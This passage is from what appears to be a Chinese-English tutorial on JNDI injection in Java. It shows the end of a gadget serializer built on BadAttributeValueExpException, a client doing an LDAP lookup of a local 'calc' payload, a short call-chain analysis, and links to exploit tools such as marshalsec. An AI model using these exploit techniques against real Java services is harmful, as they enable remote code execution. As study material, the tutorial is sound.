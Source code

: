 ```java
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        return byteArrayOutputStream.toByteArray();
    }

}
```

Client：

```java
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "ldap://127.0.0.1:1389/calc";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

------

**Analysis**
`LdapCtx#c_lookup`  =>  decodeObject  =>  deserializeObject

![image-20230122174807932](../.gitbook/assets/image-20230122174807932.png)

# 0x05 Article To Learn

[JNDI注入之略微学学 | Y0ng的博客 (yongsheng.site)](http://www.yongsheng.site/2022/07/18/JNDI-attack/)

[跳跳糖社区-JNDI注入分析](https://mp.weixin.qq.com/s/khc-2oyNOA7-MeB0COl31g)

> **工具**
>
> * [JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass)
> * [marshalsec](https://github.com/mbechler/marshalsec)
